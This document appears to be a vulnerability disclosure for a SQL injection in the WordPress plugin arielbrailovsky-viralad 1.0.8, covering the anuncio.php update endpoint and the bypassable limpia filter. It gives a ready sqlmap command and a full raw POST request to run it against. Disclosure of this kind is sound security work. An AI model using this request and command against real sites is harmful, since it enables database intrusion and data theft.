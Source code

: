 ### The data update interface of the wordpress plugin arielbrailovsky-viralad has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/arielbrailovsky-viralad/

**Version**：1.0.8

**Route**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php

**API function**: update records

**Injection parameters**: id

**Request method**：POST

**Complete vulnerability trigger related interfaces and parameters**：[/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php]、[id=88&text=123ssss&url=http%3A%2F%2F123&active=0&priority=5&ffamily=Arial&fsize=11&fcolor=%230f0f0f&bgcolor=%23f0f0f0&bdcolor=%23555555&talign=left&fitalic=1&funderline=0&fbold=0&nocache=0.384170610408046&security=2vnxf31d4hetw6ubkp75]

#### 1.Vulnerability analysis

n the anuncio.php file, when the request method is post and the request parameter action is empty, the incoming ID will be directly obtained and processed by the limpia function. If the database contains the record, it will be directly spliced into the update sql statement to perform the record update operation.

![image-20250302203537209](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302203537209.png)

However, the limpia function only performs simple keyword filtering, which can be bypassed by attackers (such as case, keyword replacement, blind injection, etc.).

![image-20250302203644793](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302203644793.png)

Therefore, attackers can easily construct malicious sql injection payloads for exploitation.

#### 2.Vulnerability verification and exploitation

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
POST /wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php HTTP/1.1
Host: wp3:82
Content-Length: 234
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://wp3:82
Referer: http://wp3:82/wp-admin/options-general.php?page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C6a60c9d06464a51a9060e3fdf0020e0b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C0abf1d7f8bfba5dca9d1f96d15294f9d; wp-settings-1=m6%3Do%26m9%3Do; wp-settings-time-1=1740904532; PHPSESSID=irmjinoeft5778hb5e97i155j6
Connection: close

id=88&text=123ssss&url=http%3A%2F%2F123&active=0&priority=5&ffamily=Arial&fsize=11&fcolor=%230f0f0f&bgcolor=%23f0f0f0&bdcolor=%23555555&talign=left&fitalic=1&funderline=0&fbold=0&nocache=0.384170610408046&security=2vnxf31d4hetw6ubkp75
```

![image-20250302203406959](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302203406959.png)